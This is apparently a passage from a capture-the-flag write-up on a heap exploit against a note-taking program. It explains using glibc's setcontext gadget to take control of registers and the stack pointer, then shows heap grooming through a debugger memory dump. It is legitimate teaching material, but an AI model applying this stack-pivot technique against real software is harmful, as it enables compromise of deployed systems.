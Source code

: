     <setcontext+53>:  mov    rsp, QWORD PTR [rdi+0xa0]
    <setcontext+60>:  mov    rbx, QWORD PTR [rdi+0x80]
    <setcontext+67>:  mov    rbp, QWORD PTR [rdi+0x78]
    <setcontext+71>:  mov    r12, QWORD PTR [rdi+0x48]
    <setcontext+75>:  mov    r13, QWORD PTR [rdi+0x50]
    <setcontext+79>:  mov    r14, QWORD PTR [rdi+0x58]
    <setcontext+83>:  mov    r15, QWORD PTR [rdi+0x60]
    <setcontext+87>:  mov    rcx, QWORD PTR [rdi+0xa8]
    <setcontext+94>:  push   rcx
    <setcontext+95>;  mov    rsi, QWORD PTR [rdi+0x70]
    <setcontext+99>;  mov    rdx, QWORD PTR [rdi+0x88]
    <setcontext+106>: mov    rcx, QWORD PTR [rdi+0x98]
    <setcontext+113>: mov    r8,  QWORD PTR [rdi+0x28]
    <setcontext+117>: mov    r9,  QWORD PTR [rdi+0x30]
    <setcontext+121>: mov    rdi, QWORD PTR [rdi+0x68]
    <setcontext+125>: xor    eax, eax
    <setcontext+127>: ret

All registers, including `rsp` and `rbp`, are loaded from the memory pointed to
by `rdi` and we control where we ret to.

The problem is the offsets, they are pretty large, and we only control 63 bytes
through our notes. We'll have to setup the heap in such a way that we have the
values we want where we want them. There might be a correct way to do this, I
don't know. The way I did it is simple: I just played around with different
allocation patterns until I found something that seemed to work OK.

I started by doing a simple loop. Adding some notes so that I could see what a
heap looked like. This is what I got, dumping from rdi, our favorite note:

    0000| 0x555555759490 --> 0x555555757cc0 --> 0x555555555a90 (push   rbx)
    0008| 0x555555759498 ('o' <repeats 15 times>)
    0016| 0x5555557594a0 --> 0x6f6f6f6f6f6f6f ('ooooooo')
    0024| 0x5555557594a8 --> 0x21 ('!')
    0032| 0x5555557594b0 ("11111111")
    0040| 0x5555557594b8 --> 0x555555759400 --> 0x0
    0048| 0x5555557594c0 --> 0x555555759520 ("00000000")
    0056| 0x5555557594c8 --> 0x51 ('Q')
    0064| 0x5555557594d0 --> 0x0
    0072| 0x5555557594d8 --> 0x555555759490 --> 0x555555757cc0 --> 0x555555555a90 (push   rbx)
    0080| 0x5555557594e0 --> 0x555555759520 ("00000000")
    0088| 0x5555557594e8 --> 0x5555557594b0 ("11111111")
    0096| 0x5555557594f0 --> 0x555555759570 ("22222222")
    0104| 0x5555557594f8 --> 0x5555557595d0 ("33333333")
    0112| 0x555555759500 --> 0x5555557595f0 ("44444444")
    0120| 0x555555759508 --> 0x555555759610 ("55555555")
    0128| 0x555555759510 --> 0x555555759630 ("66666666")
    0136| 0x555555759518 --> 0x21 ('!')
    0144| 0x555555759520 ("00000000")
    0152| 0x555555759528 --> 0x0
    0160| 0x555555759530 --> 0x0
    0168| 0x555555759538 --> 0x31 ('1')
    0176| 0x555555759540 --> 0x0
    0184| 0x555555759548 --> 0x555555759490 --> 0x555555757cc0 --> 0x555555555a90 (push   rbx)
    0192| 0x555555759550 --> 0x555555759520 ("00000000")
    0200| 0x555555759558 --> 0x5555557594b0 ("11111111")
    0208| 0x555555759560 --> 0x555555759570 ("22222222")
    0216| 0x555555759568 --> 0x21 ('!')
    0224| 0x555555759570 ("22222222")
    0232| 0x555555759578 --> 0x555555759500 --> 0x5555557595f0 ("44444444")
    0240| 0x555555759580 --> 0xffffffffffffffff
    0248| 0x555555759588 --> 0x41 ('A')
    0256| 0x555555759590 --> 0x0
    0264| 0x555555759598 --> 0x555555759490 --> 0x555555757cc0 --> 0x555555555a90 (push   rbx)
    0272| 0x5555557595a0 --> 0x555555759520 ("00000000")